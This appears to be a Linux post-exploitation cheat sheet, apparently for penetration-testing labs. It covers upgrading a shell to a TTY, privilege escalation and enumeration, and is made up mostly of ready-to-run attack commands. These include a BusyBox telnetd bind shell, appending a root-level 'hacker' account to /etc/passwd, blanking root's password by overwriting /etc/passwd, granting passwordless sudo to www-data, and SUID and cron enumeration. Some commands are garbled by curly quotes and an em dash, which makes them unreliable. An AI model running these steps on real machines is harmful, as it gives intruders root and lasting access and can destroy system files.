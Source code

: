 ## Enumeration


After getting intial shell, create TTY shell:

Python:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bash:
```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:
```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:
```
 exec "/bin/sh"
```

Lua console:
```
os.execute('/bin/sh')
```

Vi:
```
:!bash
:set shell=/bin/bash:shell
```
BusyBox:
```
/bin/busybox telnetd -|/bin/sh -p9999
```

Set PATH and TERM if they are missing (also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
``` 

### Manual Enumeration

Check for sudo allowance:

```
sudo su -
sudo -l
```

Is /etc/shadow is world-writable (ls -la /etc/shadow == -rwxrwxrwx) ?

1) Create our password:
```
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```
2) Append our new user to the /etc/shadow file:

```
echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

OR reset root pasword using this trick (may be unstable):

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

Can we add user with no password to /etc/sudoers file?

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

What process are running under root?

```
ps aux | grep root
```

What SUID / GUID binaris are available?

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

Abusing sudo-rights using SUID/GUIDS or any 3rd-party utility could be found using https://gtfobins.github.io/

Finding world readable/writable directories:

```
 echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Check for Environment variables:
```
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Check what exported path are availble:

```
export -p
```

Check background process (cronjobs):

```
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

Getting final Proof:

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```
